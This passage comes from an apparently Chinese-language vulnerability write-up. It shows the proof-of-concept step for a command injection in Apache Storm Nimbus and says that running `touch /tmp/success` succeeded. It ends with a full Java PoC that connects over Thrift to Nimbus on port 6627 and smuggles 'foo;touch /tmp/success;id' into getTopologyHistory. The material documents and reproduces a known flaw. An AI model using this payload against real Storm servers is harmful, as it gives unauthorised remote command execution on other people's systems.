 用poc进行测试执行`touch /tmp/success`

![9.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/47c45bbd-9324-c1fe-cfff-d4788f52d95c.png)

命令成功执行，success被创建

![10.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/4aefcd0c-2894-7a71-8720-634f41931c08.png)

**POC**

```
import org.apache.storm.thrift.TException;
import org.apache.storm.thrift.transport.TTransportException;
import org.apache.storm.utils.NimbusClient;
import java.util.ArrayList;
import java.util.HashMap;
import java.util.List;

public class Main {
    public static void main(String[] args) throws TException {
        HashMap config = new HashMap();
        List<String> seeds = new ArrayList<String>();
        seeds.add("localhost");
        config.put("storm.thrift.transport", "org.apache.storm.security.auth.SimpleTransportPlugin");
        config.put("storm.thrift.socket.timeout.ms", 60000);
        config.put("nimbus.seeds", seeds);
        config.put("storm.nimbus.retry.times", 5);
        config.put("storm.nimbus.retry.interval.millis", 2000);
        config.put("storm.nimbus.retry.intervalceiling.millis", 60000);
        config.put("nimbus.thrift.port", 6627);
        config.put("nimbus.thrift.max_buffer_size", 1048576);
        config.put("nimbus.thrift.threads", 64);
        NimbusClient nimbusClient = new NimbusClient(config, "localhost", 6627);

        // send attack
        nimbusClient.getClient().getTopologyHistory("foo;touch /tmp/success;id");
    }
}
```

